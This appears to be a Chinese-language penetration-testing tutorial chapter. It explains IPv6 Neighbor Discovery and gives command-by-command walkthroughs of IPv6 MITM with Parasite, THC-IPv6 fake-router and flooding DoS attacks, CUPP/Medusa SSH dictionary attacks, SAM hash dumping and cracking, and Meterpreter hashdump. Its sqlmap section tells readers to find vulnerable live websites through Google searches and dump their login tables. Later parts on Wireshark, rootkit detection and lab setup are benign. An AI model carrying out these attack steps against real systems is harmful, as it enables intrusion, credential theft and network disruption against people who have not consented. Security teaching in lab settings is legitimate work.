

路由器公告指示了离开本地链路的路径，但它们还指定了协助其他 NDP 操作所需的额外信息。

## 前缀发现

路由器公告通常携带的选项之一是前缀信息选项（类型 3）。每个前缀信息选项列出了本地链路上可达的 IPv6 前缀（子网）。请记住，同一链路路上存在多个 IPv6 前缀并不起见，路由器可能在每条公告中包含多个前缀。知道链路路上哪些前缀是可达的主机可以直接与这些前缀中的目的进行通信，而无需将流量通过路由器。

## 参数发现

路由器公告中包含的另一个选项是 MTU 选项（类型 5），它告知主机要使用的 IP MTU。例如，此值在以太网网络中通常设置为 1500。然而，并非所有链路类型都有标准的 MTU 大小。包含此选项可确保所有主机都知道要使用的正确 MTU。

路由器公告还指定了主机应使用的 IPv6 跳跃数默认值。这并不是一个选项，而是构建在路由器公告消息头中的一个字段。

## 地址自动配置

NDP 提供了一种机制，允许主机通过从本地路由器学习到的前缀，自动为自己配置地址。这是通过将学习到的候选前缀与主机接口的 EUI-64 地址拼接实现的。通过这种方式，主机可以实现无状态自动配置。

## 地址解析

地址解析的功能在 IPv4 中由 ARP 处理，而在 IPv6 中由 ICMPv6 处理。在一个与路由器发现非常相似的过程中，使用了两种 ICMPv6 消息：邻居请求（类型 135）和邻居公告（类型 136）。寻求邻居链路层地址的主机会多播一个邻居请求，而该邻居（如果在线）则通过邻居公告响应并返回链路层地址。



### 下一跳确定

在 IPv4 中，下一跳确定简单是指在主机路由表上执行最长匹配查找的过程，并且对于链路外的目的，选择默认路由器的过程。

### 邻居不可达检测

当达到某些阈值时，NDP 通过检查来自上层协议的线索（例如收到的 TCP 确认包，或通过 ICMPv6 主动执行地址解析）来确定邻居的可达性。

### 重复地址检测

当主机首次加入链路时，它会在尝试使用该地址通信之前，在短时间内对其自己的 IPv6 地址多播邻居请求。如果它收到了响应的邻居公告，主机就会意识到链路上的另一个邻居已经在使用该地址。主机会将该地址标记为重复且不会在链路上使用它。注意，此过程类似于 IPv4 的免费 ARP 请求，但 NDP 允许检测两个具有相同地址的主机。

# 重定向

第五种类型的 ICMPv6 消息是重定向（类型 137），它被路由器用于将主机指向更优的路由器，或者指示目的地实际上位于链路上。IPv4 通过自己的重定向消息提供了相同的能力。



## 使用 Parasite 对 IPv6 进行 MITM 攻击

IPv6 邻居发现 (ND)是一组确定节点间关系的消息和过程。ND 替换了 IPv4 中地址解析协议 (ARP)、Internet 控制消息协议 (ICMP) 路由器发现和 ICMP 重定向，并提供了额外的功能。ND 在 RFC 4861 中描述。

主机使用 ND 用于：
- 发现邻居路由器。
- 发现地址、地址前缀和其他配置参数。

路由器使用 ND 用于：
- 宣告它们的存在、主机配置参数和链上前缀。
- 告知主机通过特定目的转发数据包的更好的下一跳地址。

IPv6 中的邻居发现操作可用于发起 MITM 攻击。以下使用 Parasite 的步骤将展示如何在 IPv6 环境中启动 MITM 攻击。Parasite 将发送 ICMP 请求/公告数据包并向邻居宣告 MAC 地址。

- 在 windows 上，你可以输入 `netsh interface ipv6 show neighbors` -- 这将显示所有 ipv6 邻居
- 首先启用 IPv6 转发：`echo 1 >/proc/sys/ipv6/conf/all/forwarding` -- 启用 IP 转发
- 运行 parasite：`parasite -I eth0` -- 循环并每 5 秒响应一次数据包，-R 注入请求的目的
- 现在如果我们在 windows 上检查 ipv6 邻居，将看到路由器的 MAC 地址已更改
- 现在你可以运行 Wireshark 并嗅探流量。再次，通过跟踪 TCP 流，可以在 Wireshark 中找到所有明文密码！

## 来自 THC (The Hacker Choice) 的 IPv6 工具


存在许多工具箱，可以让你利用软件漏洞。一个工具箱可以被视为一个允许个人测试或入侵系统的程序集合。

由 The Hacker’s Choice 的 Hauser 维护的一个名为 THC-IPv6 的工具箱特别允许你“攻击”IPv6 和 ICMP6 漏洞。其主要目的是测试具有活动 IPv6 接口的网络设备。拥有超过 50 个独立工具，该工具箱允许你执行诸如检测 IPv6 主机、伪造路由器和发起拒绝服务攻击等任务。

通过实验和时间，你可以根据需求调整工具套件。The Hacker’s 的成员和工具箱的用户一直在开发新工具并接受软件贡献。

THC-IPv6 的某些功能包括：
- 恶意 IPv6 RA
- 发现新 IPv6 主机
- NDP DAD 攻击（响应地址在使用导致系统无法获取 IP）
- NDP RA 泛（大量的路由器公告）
- NDP NA 泛（邻居公告泛）
- 实现检查 - 检查 ipv6 设备的功能

以下是 THC IPv6 的用例：
- `fake_router6 eth0 2001:db8:BAD::64` -- 向网络发送伪路由器公告
  - windows 客户端应该拥有 Kali 中指定的网络 IPv6 地址
  - 在 windows 客户端（目标）运行 `netsh interface ipv6 show route` 将显示 ipv6 路由
- `detect-new-ipv6 eth0` -- 这将监听网络并发现分配给设备的 ipv6 地址
- `dos-new-ipv6 eth0` -- 这将监听 eth0 并在收到重复发现消息时响应 ipv6 已使用 - 导致网络上没有新设备获取 IP 地址
- `flood_router6 eth0` -- 这将向网络泛洪路由器公告
  - 如果你在网络上的计算机上检查 ifconfig，将收到大量的 ipv6 地址和网络！这是一个严重的 Dos 攻击，会影响网络上的设备
- `flood_advertise60` -- 这将向网络泛洪邻居公告，并产生与上述命令的效果
- `implementation6 eth0 2001::1` -- 这将检查 2001::1 IP 地址的设备并返回关于功能的
- `smurf6 eth0 2001::1` -- 这将从主机 2001::1 向多播组（该网络上的所有人）发送 ping 请求，然后每个设备都将向 2001::1 响应，通过这种方式，它将用 2001::1 IP 地址泛洪该设备
  - 通常情况下，新设备不会对多播组的 ping 请求做出响应

## 使用 CUPP（常用用户密码分析器）创建个性化字典列表

## 字典攻击

- 大多数人使用单词作为密码
- 在尝试暴力破解之前，先尝试字典中的所有单词
- 这会让攻击速度快得多


人们花费大量时间来准备有效的字典攻击。常用用户密码分析器 (CUPP) 旨在简化这种攻击方法，该方法在渗透测试和法医犯罪调查中通常用作最后的手段。

在进行字典攻击时，了解个人的属性、姓名、生日、姓氏、爱好等非常重要。下一步是创建一个包含所有这些属性的数据库。

要启动字典攻击：
- 可以使用 CUPP 和 Medusa 等工具
- `cd /usr/lib/cupp` -- 可能根据你的版本而不同
- 根据你的需求编辑配置文件
- `./cupp.py -i` -- 这将为我们创建密码列表 - -i 表示交互模式并提问
- `medusa -h 10.0.0.1 -u steve -P /usr/lib/cupps/steve.txt -e ns -F ssh - -M ssh` - 用户 用户为 steve，指定了密码文件，-e 表示无密码或与用户名相同，-F 成功后停止，-M 指定模块 (SSH)

## 访问 SAM 数据库并破解密码


安全账户管理器 (SAM) 是 Windows 操作系统 (OS) 中的数据库，包含用户名和密码。SAM 是注册表的一部分，可以在硬盘上找到。


虽然在 SAM 文件上只能找到密码的哈希副本，但可以使用工具来破解密码。该类的两种常用工具是 `Samdump2` 和 `John the Ripper` 工具。

要能够启动 SAM 数据库攻击，你需要获取 Windows 机器权限（物理或远程）。

下一步是使用 live CD 启动机器（具有物理访问权限）并转储哈希。然后我们可以进行离线哈希密码破解。

诸如彩虹表 (`Rainbow table`) 之类的工具是哈希列表（来自字典列表），用于比较哈希。与密码破解相比，这个过程要快得多，因为我们只比较哈希，而不是在每次攻击期间都创建一个哈希。

### 破解 SAM 文件的步骤

- 使用 Kali 的 Live CD 启动 PC
- `fdisk -l` (小写 L) -- 查找 Windows 文件系统
- `mkdir tempfolder`
- `mount /dev/sda2 /root/tempfolder` -- 这将分区挂载到 tempfolder
- `cd /root/tempfolder`
- `cd /Windows/System32/config`
- `bkhive SYSTEM /root/key.txt` -- 获取 SYSTEM 的内容并将其放入 key.txt
- `samdump2 SAM /root/key.txt > /hashfile.txt` -- 这是我们的哈希文件，可以使用 `John the Ripper` 等其他工具破解密码
- `cd /pentest/passwords/john` -- `John the Ripper` 工具的位置
- `./john/root/hashfile.txt -format=nt2 -users=Administrator` -- 这将开始破解哈希文件以找到用户 Administrator 的密码

### 说明和使用彩虹表

#### 什么是彩虹表？


彩虹表是特定哈希算法的加密密码所有可能的明文排列。

彩虹表通常被密码破解软件用于网络安全攻击。所有需要基于密码身份验证的计算机系统都会存储与用户账户关联的密码数据库，通常出于安全考虑，这些密码是加密的而非明文。

- 彩虹表将哈希与哈希列表进行比较，而不是检查明文密码
- 这会让查找密码快得多
- 可以在互联网上下载彩虹表
- 使用 `armitage`、`meterpreter`、`ophcrack` 等工具
- 使用彩虹表的示例：
  - 运行 `armitage`
  - 进行快速 `nmap` 扫描以找到设备
  - 或者：`nbtscan 10.0.0.0/24` -- 仅查找 Netbios (Microsoft) 设备
  - 在 `armitage` 中查找攻击
  - 启动 netapi 攻击
  - `show sessions` -- 显示到设备的 `meterpreter` 会话
  - `hashdump` -- 此命令将显示受害者（windows 机器）上所有可用的哈希
  - 在 Password attacks -> Offline attacks -> 选择 Ophcrack-GUI
  - 选择 Load 并将单个哈希添加其中
  - 在 tables 下选择你想要使用的彩虹表
    - 要下载彩虹表，可以在 Google 上搜索 "ophcrack tables"
    - 然后你可以在 `Ophcrack` 上安装它
  - 点击 Crack 启动破解

### 使用 Sqlmap 破解使用 PHP, MYSQL 的易漏洞网站


`Sqlmap` 是一款开源渗透测试工具，可自动化检测和利用 SQL 注入漏洞并接管数据库服务器。它带有一个强大的检测引擎、许多针对终极渗透测试员的小众功能，以及一系列开关，范围从数据库指纹识别、从数据库获取数据，到访问底层文件系统以及通过带外连接在操作系统上执行命令。

下面的示例显示了如何使用 `Sqlmap` 破解易漏洞网站。

- 你可以通过 Google 搜索类似 "phpid=1" 的内容找到易漏洞网站
  - 为了确保该网站有漏洞，在 URL 末尾添加 `'` 字符并查看是否会出现 SQL 错误
  - 如果出现，你就可以处理该网站
- 在此示例中，易漏洞 url 是 `http://www.domain.com/page.php?id=1`
- 在 Kali 上，我们将使用 `sqlmap` 分析漏洞
- 下列命令将为你提供该主机上所有数据库的列表
  - `sqlmap -u http://www.domain.com/page.php?id=1 --dbs`
- 接下来你可以获取特定数据库（下例示例中的 www DB）的所有表列表
  - `sqlmap -u http://www.domain.com/page.php?id=1 -D --tables`
- 选择你的表，例如 `tbl_users`、`tbl_login` 等，并使用下面的命令获取该表上的可用列
  - `sqlmap -u http://www.domain.com/page.php?id=1 -D www -T tbl_login --columns`
- 你可能会看到如 `username`、`login`、`password` 等列。尝试下面的命令获取这些列的记录，例如 www 数据库和 `tbl_login` 表中 `username` 列的所有记录
  - `sqlmap -u http://www.domain.com/page.php?id=1 -D www -T tbl_login -C username --dump`
- 要获取 `tbl_login` 中的可用密码列表，尝试列出该数据库的密码列
  - `sqlmap -u http://www.domain.com/page.php?id=1 -D www -T tbl_login -C password --dump`

你现在应该有一份用户名和密码列表。

### Wireshark 协议分析器


`Wireshark` 是一款免费且开源的数据包分析器。它用于网络故障排除、分析、软件和通信协议开发以及教育。

> **注意**：我们不会在书中介绍使用 `Wireshark` 的基础知识，因为它是成为道德黑客的先决。有很多训练材料和在线视频可以用于熟悉 `Wireshark`。

- 你可以使用 `Wireshark` 以不同的方式采集流量
  - MITM 攻击
  - 交换机上的端口镜像
  - 通过其接口在网络上进行正常数据包采集

我们将解释 `Wireshark` 的一些不常用的有趣功能。

- 你可以更改数据包颜色以适应你的需求
- 你可以通过右键点击主窗口列中的 `Flags` 或包内的任何内容并选择“As Column”来始终显示
- Statistics 菜单和 Summary 将为你提供文件的摘要
- Statistics 菜单和 protocol hierarchy（协议层次）将显示每个协议的使用量
- Statistics 菜单和 conversation（会话）可以检查连接，你也可以在里面过滤流量
- 统计菜单和端点（endpoint）将显示流量最大的主机以及每个主机产生的流量
- 统计菜单和数据包长度（packet length）将显示数据包长度
- 统计菜单和 IO 图形，你可以根据过滤器条件为特定流量创建图表
- 统计菜单和 http，你可以查看所有的 http 请求及其详细信息
- 统计菜单和流图（Flow Graph）将为你展示关于捕获流量会话的图表
- 如果你没有图形界面，可以使用 `tshark` 命令

### 检测 Rootkit（根内核程序）

| 文件名 | 路径 | 大小 |
| :--- | :--- | :--- |
| ssdpapi.dll | WINDOW\system32 | 34816 |
| sspsrv.dll | WINDOW\system32 | 71680 |
| ssflubox.scr | WINDOW\system32 | 393216 |
| ssmarques.scr | WINDOWS\system32 | 20992 |
| ssmypics.scr | WINDOWS\system32 | 427104 |
| ssyst.scr | WINDOWS\system32 | 189944 |
| sspipes.scr | WINDOWS\system32 | 610304 |
| ssplt30.scr | WINDOWS\system32 | 172768 |
| ssstars.scr | WINDOWS\system32 | 143168 |
| ssextd3.dir | WINDOWS\system32 | 679936 |
| Status -MPF | WINDOWS\system32 | 63296 |
| client.dll | WINDOWS\system32 | 59392 |
| dlo32.tlb | WINDOWS\system32 | 71168 |
| sti.dll | WINDOWS\system32 | 68096 |
| sti_ci.dll | WINDOWS\system32 | 136794 |
| stim.exe | WINDOWS\system32 | 148488 |
| stobject.dll | WINDOWS\system32 | 121856 |
| storage.dll | WINDOWS\system32 | 4208 |
| storprop.dll | WINDOWS\system32 | 247252 |
| stream1.dll | WINDOWS\system32 | 8192 |
| strdll.dll | WINDOWS\system32 | AskRootRank.com |

`Rootkit` 是一种隐蔽软件，通常是恶意的，旨在从常规检测方法中隐藏某些进程或程序的存在，并继续对计算机保持特权访问。

- 通常由攻击者实现
- 你通常不会发现它的存在
- 检测工具
  - `rkhunter`
  - `chkrootkit`
- 你可以通过 `apt-get` 安装它们
- `dpkg -l | grep rkhunter` -- 检查是否已经安装
- `locate chkrootkit`
- 进入文件夹
  - `./chkrootkit -h`
  - `./chkrootkit` -- 这将检查并给你结果
- 定位 `rkhunter`
- `rkhunter -update` -- 更新数据库
- `rkhunter -c` -- 检查 rootkit

### 使用 Virtual box 创建测试环境 (BED)

为了在测试环境中安装 Kali，并拥有足够的工具进行检查和漏洞利用，你需要以下软件：

- `Virtual box`
  - 从 `https://www.virtualbox.org/wiki/Downloads` 下载
- `Kali Linux`
  - 从 `http://www.kali.org/downloads/` 下载
- `Metasploitable2` -- Linux 发行版 - 这是一个存在漏洞且可用于测试的虚拟机
  - 从 Sourceforge 下载：
    `http://sourceforge.net/projects/metasploitable/files/Metasploitable2/`
- Windows, Linux 等
- `GNS3`
  - 可选，如果你熟悉思科（Cisco）产品

### 在 Virtual box 上安装 Kali Linux 的步骤

1. 创建一个新的 Linux 虚拟机
2. 1 个或或 2 个虚拟 CPU 以及 512MB 内存应该足够了
3. 按照提示创建一个 8GB 磁盘空间的虚拟磁盘
4. 选择网络适配器模式
   a. 桥接模式（Bridge mode）：选择此模式后，你的 Kali 将与你的 PC 处于同一个物理网络
   b. NAT 模式（NAT mode）：选择此模式后，你的 Kali 将拥有互联网访问，但位于 PC 之后
   c. 仅主机模式（Host Only mode）：选择此模式后，你的 Kali 将无法访问互联网，但允许虚拟机之间进行通信
5. 确保为 CPU 启用了 PAE 功能

按照下方图片中的步骤安装 Kali。








